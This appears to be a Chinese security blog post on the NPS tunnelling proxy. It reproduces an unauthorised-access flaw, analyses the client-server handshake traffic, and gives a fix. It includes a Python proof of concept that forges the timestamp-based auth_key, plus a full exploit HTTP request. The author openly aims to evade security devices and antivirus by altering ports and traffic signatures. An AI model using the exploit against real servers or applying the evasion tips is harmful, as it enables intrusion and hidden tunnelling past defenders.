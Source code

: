#  nps之Socks流量分析以及未授权复现  
Ggoodstudy  蚁景网络安全   2025-06-25 09:36  
  
##### 前言  
  
因为想要写一个socks的流量算法去绕过安全设备，所以这里对nps的流量特征总结一下，方便自己后期的魔改。  
##### 环境  
> ubuntu 16.04  vps  server  
> windows server 2012R2  clinet  
  
```
mkdir npscd npswget https://github.com/ehang-io/nps/releases/download/v0.26.10/linux_amd64_server.tar.gztar -zxvf linux_amd64_server.tar.gz./nps install
```  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6uOh5y3ib9jjUCtEeTTUrFxI99868dUpqYSrzOtIQv5kkqeRk262BPIg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
  
```
cd /etc/nps/conf/vim nps.conf
```  
  
配置文件  
```
#webweb_host=a.o.comweb_username=xxxx    //管理端用户名web_password=xxxxxx  //管理端密码web_port = xxxxx     //管理端端口web_ip=0.0.0.0web_base_url=web_open_ssl=falseweb_cert_file=conf/server.pemweb_key_file=conf/server.key#web_base_url=/nps
```  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6Mcic9rCY9Mj7rE2hCbGqONLjgGjlicFojGayDRqV1OSFiaphYm8JIb4Pg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
```
##bridgebridge_type=tcp   //客户端连接协议tcpbridge_port=xxxx  //客户端连接端口bridge_ip=0.0.0.0
```  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6siciblXiawmg6w2ghWibjYoXVVWjzjweialr5wvc725RQo74BJoCkGZS7oA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
  
bridge_port  
的默认端口默认为8024  
，这里不建议改为默认的，连接客户端的时候可能会触发安全设备规则  
##### NPS未授权复现  
  
POC  
```
#encoding=utf-8import timeimport hashlibnow = time.time()m = hashlib.md5()m.update(str(int(now)).encode("utf8"))auth_key = m.hexdigest()print("Index/Index?auth_key=%s&timestamp=%s" % (auth_key,int(now))
```  
  
直接访问  
> http://vps:port?payload  
  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6X1kQ2E8R6EIztwib11HAkqQeyhF5CrkS8ms5IkpqO95HXhed3U7jibnw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
exp请求接口  
```
POST /client/list HTTP/1.1Host: vps:portUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0Accept: application/json, text/javascript, */*; q=0.01Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateContent-Type: application/x-www-form-urlencodedX-Requested-With: XMLHttpRequestContent-Length: 98Origin: http://vps:portConnection: closeReferer: http://vps:port/client/listsearch=&order=asc&offset=0&limit=10&auth_key=805df7d1f7bf3b662939ca091174e6b4&timestamp=1659948547
```  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw67VNEPhct42VKa9UTMlIxlRzlZUQ1bEDbjibLSgoczNiaEib3XqiaCp2Ylw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
参考链接：  
> https://mp.weixin.qq.com/s/PTq01wcV4XJwutbSjHjfvA  
  
##### 修复措施  
  
vim /etc/nps/conf/nps.conf取消注释  
auth_key,添加  
auth_crypt_key`注释  
> auth_key=test #auth_crypt_key =!QAZ4rfv%TGB^YHN  
  
  
修改为  
> auth_key=test #auth_crypt_key =!QAZ4rfv%TGB^YHN  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6KsZYmTKc20HIQkIcBsfpBHmXKJTTTvFOv1lrI9gJbQpO9WCtPc2aLA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
  
目前最新版本的也存在改配置不当问题，这里需要修改配置，修复之后是无法通过未授权读取内容信息的。  
##### socks流量分析  
> nps start  
  
  
访问http://vps:port/login  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6gqDWQbU4rfHJagBchibBrxz69QTHAKVxia5Ce0LmrE12TQRnwfTWZAvw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
新增客户端  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6pq1ebGrW7JZ8yhFWjTqaXvfYBO4Gk5ALibvwhRBydRLvzribg8Mjic1kQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
  
这里用户名和密码随意，这里是客户端登录的认证用户名，在客户端连接的时候是根据密钥  
来实现的。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6QchF3w50Kb8QD764W6lU0ZNJYPWyoDUzBKVXs9ZOib1MzUiaHOyIXlwA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
  
客户端选择windwos server 2012R2  
  
修改客户端配置文件  
```
[common]server_addr=vps:portconn_type=tcpvkey=xxxxauto_reconnection=truemax_conn=1000flow_limit=1000rate_limit=1000basic_username=11basic_password=3web_username=xxxx    web_password=xxxxxcrypt=truecompress=true#pprof_addr=0.0.0.0:9999disconnect_timeout=60
```  
  
客户端启动  
> npc.exe -server=vps:port -vkey=xxxxx -type=tcp  
  
  
正常情况下会报毒，所以这里针对杀软这一块儿，客户端需要做一下免杀处理。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6XibKNbedBibLe41hNdacH1zEgxbZE7IoIy0Ky4X4M4nLBicOoPdUBibq5g/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
  
查看连接状态  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6NibicTRMKX9JFib5Xq6s1awvqVt4SicZJIVuUM1aicNTwXF9vFNfubjjQiaA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6IOaib0gPQqNKHuWR0OpUPF6XC0br588xP9Bh4E9gey4B1PTrLF1icUicg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
  
使用goby  
测试socks5  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6ELpZCXqJc8EEPncPqyM4DCM6icnkNfw6bXeFFTv0fiazZic9YWZ8EWVJw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
  
测试代理  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6XhKsJnOAicibffZy7RAA3r01ttTlK3q0hDHiae6vWCicDJBocdm2riaJ5ibA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
  
已成功实现内网穿透。  
  
这里使用wireshark  
抓取流量包，  
  
初始流量服务器向客户端发送TST  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6GzuBKb9M0kiaglibDMPxLopmSk1vMVkCibIOias2tOXT6CoKdgM3AKmzyw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
  
同时客户端向服务端确认版本，同时返回客户端版本0.26.0  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6Oeh2uraSpmvsXsHpr1TuNVUnfgjR7hlSiciazs4qJeIm7icRDwDhBA6rw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
代码位置nps/lib/version/version.go  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6w6khCDk8vhgQ4gwfezTfg9kka5dZHGRmNK5aXaYj97JoDqmhCzoPBg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
  
服务端接收到请求后，客户端请求的数据内容为nps的版本为0.26.10  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw63eFQghicNz8QjYgXxNGA2He6M4nqmttPIUTQj5ePKiaDghicSI1D1OA8Q/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
  
服务端接收到请求后返回给客户端服务端版本的md5值，即  
> md5(0.26.0)=89a4f3fc3c89257d6f712de6964bda8e  
  
  
可以发现在产生nps  
客户端连接的时候,会产生数据校验，这里数据校验就是有服务器到  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6icnVOu8HHwoJZOhfbay7ng8XAlgCtKRebWLibX1fbCxJLl7mVrSPnibLg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
  
这是客户端传输给服务端密钥连接  
> md5(vkey)  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6VBPMeQVtlbbEIsbfeibIbsiaOVuRJkqPjPhE1hKLiaV7NbUuqibnUgNp7Q/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
  
服务端在接收到客户端的请求后校验数据后返回success  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LeKhQWoR37Ob2kBUibMmjcw6ibuZg3vByAnjfAMRfD5zA5molsGrv1SwsrOUdUI3KSJWu4Ud5w0Ig8Q/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
  
这里客户端和服务端的连接流量就比较清晰了，那么想要bypass安全设备的告警，在修改加密方式和修改版本关键字即可，因为在做流量隐藏的时候跟bypassav不一样，不会考虑文件的哈希以及文件在沙箱中的落地状态。  
  
[](https://mp.weixin.qq.com/s?__biz=MzkxNTIwNTkyNg==&mid=2247549615&idx=1&sn=5de0fec4a85adc4c45c6864eec2c5c56&scene=21#wechat_redirect)  
  
  
